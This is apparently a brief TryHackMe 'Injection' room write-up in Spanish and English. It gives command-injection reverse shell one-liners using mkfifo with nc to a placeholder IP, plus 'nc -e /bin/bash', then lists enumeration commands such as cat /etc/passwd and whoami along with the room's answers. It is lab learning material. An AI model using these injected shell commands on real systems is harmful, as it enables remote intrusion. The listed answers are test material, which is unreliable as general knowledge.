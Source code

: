 # TryHackMe-Injection

reverse shell

; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f
  
o simplemente
  
;nc -e /bin/bash
  
## 1)What strange text file is in the website root directory? 
  
  ls
  
  el archivo es drpepper.txt
  
## 2) How many non-root/non-service/non-daemon users are there?
  
  cat /etc/passwd
  
  0
  
## 3)What user is this app running as?
  
  whoami
  
  www-data
  
## 4)What is the user's shell set as?
  
  awk -F: -v user="www-data" '$1 == user {print $NF}' /etc/passwd
  
  /usr/sbin/nologin
  
## 5) What version of Ubuntu is running?

  lsb_release -a
  
  18.04.4
  
## 6) Print out the MOTD.  What favorite beverage is shown?
  
    cat /etc/update-motd.d/00-header (este lo busqué porque no tenía idea de como hacerlo)
  
    DR PEPPER 

